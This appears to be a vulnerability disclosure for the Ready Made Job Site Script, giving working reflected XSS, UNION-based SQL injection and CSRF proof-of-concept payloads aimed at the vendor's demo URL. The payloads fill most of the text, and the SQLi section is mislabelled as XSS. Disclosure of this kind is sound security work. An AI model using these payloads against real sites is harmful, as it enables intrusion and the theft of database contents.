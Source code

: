### Ready Made Job Site Script  SQLi/XSS/CSRF

#### ADLab of Venustech

Well, when I pentest the official demo site of Ready Made Job Site Script, I found some vulnerabilities here.

#### XSS:

There're some reflect-xss in this system, for example:

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/xss1.png)

```
http://phpscriptsmall.biz/demo/onlinejobsearch/job
```

POST key para "keyword":

```
keyword='"><svg/onload=alert(/xss/)><'"&location_name[]=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/xss2.png)


#### SQLi:

There're some reflect-xss in this system, for example:

```
http://phpscriptsmall.biz/demo/onlinejobsearch/job
```

POST key para "location_name[]":

```
keyword=666&location_name[]=-1813) UNION ALL SELECT 6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,CONCAT(0x716a707071,0x4b7052435851504b686a5571556e74777a5a43616a5742614b4e466b7a424a6f4b6b59484a566a51,0x716b6b6b71),6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208,6208#
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/sqli.png)


You can see,  we can obtain the current data user or more sensitive data now!

#### CSRF

With the csrf bug, we can cheat the user to change some important content ,or get post reflect-xss attack here.

POC：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://phpscriptsmall.biz/demo/onlinejobsearch/job" method="POST">
      <input type="hidden" name="keyword" value="&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&#47;xss&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="location&#95;name&#91;&#93;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```




